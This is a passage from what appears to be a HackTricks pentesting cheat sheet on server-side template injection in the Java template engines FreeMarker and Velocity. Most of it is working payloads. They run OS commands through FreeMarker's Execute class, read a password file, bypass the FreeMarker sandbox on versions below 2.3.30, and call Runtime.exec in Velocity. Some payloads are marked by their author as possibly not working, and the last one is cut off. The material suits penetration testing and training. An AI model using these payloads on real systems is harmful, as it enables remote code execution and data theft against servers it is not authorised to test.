 ### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#freemarker-java)

FreeMarker (Java)

You can try your payloads at [https://try.freemarker.apache.org](https://try.freemarker.apache.org/)

- `{{7*7}} = {{7*7}}`
    
- `${7*7} = 49`
    
- `#{7*7} = 49 -- (legacy)`
    
- `${7*'7'} Nothing`
    
- `${foobar}`
    



```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}

${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```

**Freemarker - Sandbox bypass**

⚠️ only works on Freemarker versions below 2.3.30



```
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

**More information**

- In FreeMarker section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
    
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker)
    

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#velocity-java)

Velocity (Java)



```
// I think this doesn't work
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end

// This should work?
#set($s="")
#set($stringClass=$s.getClass())
```